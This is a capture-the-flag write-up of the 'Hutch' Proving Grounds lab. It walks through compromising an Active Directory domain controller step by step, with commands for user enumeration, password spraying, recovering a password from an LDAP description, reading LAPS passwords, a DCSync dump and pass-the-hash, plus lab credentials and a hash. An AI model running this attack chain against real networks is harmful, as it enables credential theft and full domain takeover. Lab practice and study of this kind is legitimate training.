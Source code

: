 # **HUTCH | PG Practice**

## **C.Rating : Hard**

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/f18534d6-daa9-4345-9cc4-69548cdfceab)

***

Running our nmap scan we have:


```bash
# Nmap 7.94SVN scan initiated Thu Jun 13 09:55:09 2024 as: nmap -p- -T4 -v --min-rate=1000 -sCV -oN nmap.txt 192.168.214.122
Nmap scan report for 192.168.214.122
Host is up (0.15s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/10.0
|   WebDAV type: Unknown
|   Server Date: Thu, 13 Jun 2024 08:58:07 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|_  Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-13 08:57:17Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hutch.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: HUTCHDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-13T08:58:09
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 13 09:58:51 2024 -- 1 IP address (1 host up) scanned in 222.82 seconds
```


Checking port 80 we have a default IIS page

![](https://i.imgur.com/qzWtkMc.png)






Decided to run `enum4linux-ng` also for more enumeration


```bash
enum4linux-ng 192.168.214.122 -L -S -oJ hutch.json

# -L: Get additional info via LDAP/LDAPS
# -S: Get shares via RPC
# -oJ: Writes output to JSON file
```



![](https://i.imgur.com/9vVXGWK.png)


Domain : hutch.offsec | 
DC : HUTCHDC


Enumerating users via `ldapsearch` we have few users


```bash
ldapsearch -x -H ldap://192.168.214.122 -b "DC=hutch,DC=offsec" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```


![](https://i.imgur.com/4y5clqt.png)



```
Guest
rplacidi
opatry
ltaunton
acostello
jsparwell
oknee
jmckendry
avictoria
jfrarey
eaburrow
cluddy
agitthouse
fmcsorley
```



We can also confirm that this users are valid using the `kerbrute` tool


```bash
kerbrute userenum --dc 192.168.214.122 -d hutch.offsec users.txt
```


![](https://i.imgur.com/5ac4Q3H.png)


Performing an ASREPRoasting attack, unfortunately no user has pre-authentication enabled


```bash
GetNPUsers.py hutch.offsec/ -usersfile users.txt -format hashcat -dc-ip 192.168.214.122
```


![](https://i.imgur.com/19LxHwc.png)


Tried to password spray

- Using the SMB protocol

```bash
crackmapexec smb 192.168.214.122 -u users.txt -p users.txt
```


![](https://i.imgur.com/EVW8zBJ.png)


- Using the WINRM protocol

```bash
crackmapexec winrm 192.168.214.122 -u users.txt -p users.txt
```


![](https://i.imgur.com/7YGbvds.png)



However password spraying with an empty password we have this `STATUS_ACCOUNT_DISABLED` message on the guest account



![](https://i.imgur.com/9epKINu.png)


Still couldn't do anything cos we need the administrator password to enable any account, However it took me hours to figure out that some users leave passwords in description, so the below command using `ldapsearch` helped 



```bash
ldapsearch -x -H ldap://192.168.214.122 -b "DC=hutch,DC=offsec" -s sub "(&(objectclass=*))"  | grep description:
```


![](https://i.imgur.com/clUpkSP.png)



We found a password called `CrabSharkJellyfish192`, soooo i decided to password spray and we got a hit at user `fmcsorley`



```bash
netexec smb 192.168.214.122 -u users.txt -p "CrabSharkJellyfish192"
```



![](https://i.imgur.com/BHe29vS.png)


As my own **rule of thumb**, after valid creds i roll up `bloodhound-python` first to get more information on the domain


```bash
bloodhound-python -u 'fmcsorley' -p 'CrabSharkJellyfish192' -ns 192.168.214.122 -d hutch.offsec -c all
```



![](https://i.imgur.com/m6X2Wqr.png)



Also just so we don't miss anything let us check if this user has access to any shares


```bash
smbmap -H 192.168.214.122 -u fmcsorley -p CrabSharkJellyfish192
```



![](https://i.imgur.com/d4Dj05m.png)




However enumerating the shares i couldn't find anything valid so i  ran back to bloodhound, loaded my data and found out the user `fmcsorley` can read the **Local Administrator Password Solution** (LAPS) which **provides management of local account passwords of domain joined computers**.


![](https://i.imgur.com/Gg6lUsf.png)


To abuse this we can use the [pyLAPS](https://github.com/p0dalirius/pyLAPS) tool to retrieve credentials



```bash
./pyLAPS.py --action get -d "hutch.offsec" -u "fmcsorley" -p "CrabSharkJellyfish192" --dc-ip 192.168.214.122
```



![](https://i.imgur.com/jDxoPEq.png)


Now let see if this password works for the administrator user, hehe


```bash
netexec smb 192.168.198.122 -u administrator -p "{2[i2Nae6IjQDF" -d hutch.offsec
```


![](https://i.imgur.com/k3ALru1.png)


> I am so sorry the password above is different same as the IP, the lab got stopped and all things where rotated



We have a hit on the administrator and it looks like we are domain admin, we can still take a step further and perform the DCSync attack to replicate the DC and dump all users hash


```bash
secretsdump.py 'hutch.offsec'/'administrator'@192.168.198.122                
# Impacket v0.9.16-dev - Copyright 2002-2017 Core Security Technologies      
                                                                                                                                                                                             
# Password:
```



![](https://i.imgur.com/7Itac4o.png)


Then pass-the-hash for the admin user and get all flags


```bash
psexec.py administrator@192.168.198.122 -hashes aad3b435b51404eeaad3b435b51404ee:0ae9bb132b0b7c3722b7ba682d966e7a
```



![](https://i.imgur.com/9GGwfBp.png)


## What did I learn ?


- First of, I need to start building a methodology for attacking AD, Point is, i missed the **"password in description"**, took me hours to figure it out and finally got it from a friend, this same thing also happened in **Dante**, THE LITTLE THINGS MATTER
- Secondly this lab was quite easy and straight forward BTW, cos' it is AD, hehe, soooo start learning **active directory penetration testing**!



Have fun 🤤


![](https://i.pinimg.com/originals/ca/26/2e/ca262e0354eea311c41134c3e4bc3bc2.gif)


<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>
